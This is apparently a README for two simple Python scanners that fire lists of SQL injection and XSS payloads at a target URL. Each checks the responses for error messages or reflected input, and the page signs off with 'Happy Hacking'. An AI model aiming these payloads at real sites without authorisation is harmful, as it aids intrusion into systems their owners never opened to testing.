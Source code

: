 ===========================================
<BR>
               SQL INJECTION
<BR>
===========================================
Define the URL of the target website:
<br>
url = "http://example.com/vulnerable_page.php"

Define a list of SQL injection payloads to test:
<br>
payloads = [
    "' OR '1'='1",
    "' OR '1'='1' -- ",
    "' OR '1'='1' /* ",
    "' OR 1=1-- ",
    "' OR 'a'='a",
    "' OR 'a'='a' -- ",
    "' OR 'a'='a' /* ",
    "1' OR '1'='1",
    "1' OR '1'='1' -- ",
    "1' OR '1'='1' /* "
]

Define a function to test for SQL injection:
<br>
def test_sql_injection(url, payloads):
    for payload in payloads:
        # Construct the full URL with the payload
        test_url = f"{url}?id={payload}"

        try:
            # Send the HTTP request
            response = requests.get(test_url)

            # Check if the payload is reflected in the response
            if "SQL" in response.text or "syntax" in response.text or "error" in response.text:
                print(f"Potential SQL injection vulnerability detected with payload: {payload}")
            else:
                print(f"Payload {payload} did not cause an SQL error.")
        except requests.exceptions.RequestException as e:
            print(f"An error occurred: {e}")

Call the function to run the test:
<br>
test_sql_injection(url, payloads)

===========================================
  <br>
                   XSS
  <br>
===========================================
First, make sure you have the requests library installed. If not, you can install it using pip:
<br>
pip install requests

Explanation:
URL Definition: The URL of the target website is defined as url.
<br>
url = "http://example.com/vulnerable_page.php"

Payloads List: A list of common XSS payloads is defined. These payloads will be tested to see if they are reflected in the response.
<br>
payloads = [
    "<script>alert('XSS')</script>",
    "<img src=x onerror=alert('XSS')>",
    "<svg/onload=alert('XSS')>",
    "';alert('XSS');//",
    "\";alert('XSS');//",
    "<body onload=alert('XSS')>",
    "<iframe src=javascript:alert('XSS')>",
    "<input type='text' onfocus=alert('XSS') autofocus>",
    "<a href='javascript:alert(\"XSS\")'>Click me</a>",
    "<div onmouseover=alert('XSS')>Hover over me</div>"
]

Function Definition (test_xss): This function takes the URL and payloads as parameters and iterates through each payload:
<br>
Construct URL: For each payload, the script constructs a test URL by appending the payload to the query parameter input.
<br>
def test_xss(url, payloads):
    for payload in payloads:
        # Construct the full URL with the payload
        test_url = f"{url}?input={payload}"

        try:

Send Request: It sends an HTTP GET request to the constructed URL.
<br>
response = requests.get(test_url)

Check Response: It checks if the payload is reflected in the response text. If it is, it prints a message indicating a potential XSS vulnerability. If not, it prints a message that the payload did not 
trigger an XSS vulnerability.
<br>
if payload in response.text:
                print(f"Potential XSS vulnerability detected with payload: {payload}")
            else:
                print(f"Payload {payload} did not trigger an XSS vulnerability.")
        except requests.exceptions.RequestException as e:
            print(f"An error occurred: {e}")

Error Handling: The script includes error handling to catch and print any exceptions that occur during the HTTP request.
<br>
test_xss(url, payloads)

=========================================
<br>
SQLI.py & XSS.py the script for testing vulnerability on the website with python language.

You can run this script for testing the website with following step:

pip install requirements
<br>
chmod +x filename.py
<br>
python3 filename.py

put target url for checking vulnerable of SQL Injection



Happy Hacking..!!
